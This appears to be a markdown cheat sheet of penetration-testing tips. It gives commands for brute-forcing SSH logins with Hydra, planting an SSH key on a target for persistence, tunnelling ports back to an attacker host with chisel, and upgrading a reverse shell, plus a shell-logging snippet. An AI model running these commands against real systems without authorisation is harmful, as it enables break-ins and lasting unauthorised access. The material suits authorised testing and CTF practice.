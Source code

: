 # Tips
## Bruteforce SSH
Use Hydra :
```bash
hydra -l 'USERNAME' -P FILE_CONTAINING_PASSWORDS -M FILE_CONTAINING_IP_TO_BRUTEFORCE -t 4 ssh
```
## Persistance
Generate SSH key :
```bash
ssh-keygen -t rsa
```
Paste it to authorized_keys :
```bash
echo XXXX >> ~/.ssh/authorized_keys
```
Then, put the file on the target machine.
## Port Forwarding
### Using SSH
To access a locally exposed service on a remote machine :
```bash
ssh -L YOUR_PORT:localhost:PORT_EXPOSED USERNAME@IP_ADDRESS
```
### Using chisel
To redirect a port (here, 3000) when you're in a docker for example (victim = 172.17.0.1 and your host = 10.10.16.8). Firstly, run a chisel server on your host :
```bash
./chisel server -p 8000 --reverse
```
Then, on the docker, redirect to your host from the victim machine :
```bash
./chisel client 10.10.16.8:8000 R:127.0.0.1:8890:172.17.0.1:3000
```
Then you can access the service with http://localhost:8890/.
## Get a proper shell on reverse shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Logs all your commands
In order to keep all the commands you've used, paste this at the end of your .zshrc file (located in home) :
```bash
PS1=$'[`date  +"%d-%b-%y %T"`]%{\033[01;31m%} `ifconfig eth0 2>/dev/null | sed -n 2,2p | cut -d" " -f 10`%{\033[00m%} %{\033[01;34m%}%c%{\033[00m%} > '
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/.log/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)
```

